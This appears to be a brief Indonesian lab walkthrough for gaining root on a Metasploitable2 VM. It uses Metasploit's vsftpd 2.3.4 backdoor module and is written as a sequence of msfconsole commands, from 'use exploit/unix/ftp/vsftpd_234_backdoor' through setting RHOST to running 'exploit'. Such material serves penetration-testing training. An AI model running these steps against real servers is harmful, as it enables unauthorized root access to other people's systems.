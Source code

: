 # Exploit Port 21 (FTP)
- Buka msfconsole di terminal
```sh
msfconsole
```

- Cari modul untuk exploit `vsftpd 2.3.4`
```sh
search vsftpd 2.3.4
```

- Gunakan modul `exploit/unix/ftp/vsftpd_234_backdoor` untuk exploit `vsftpd 2.3.4`
```sh
use exploit/unix/ftp/vsftpd_234_backdoor
```

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini hanya terdapat 2 parameter yaitu `RHOSTS` dan `RPORT` yang secara default terisi 21
```sh
show options
```

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

- Jalankan modul exploit
```sh
exploit
```

- Setelah payload berhasil dijalankan di dapat akses root

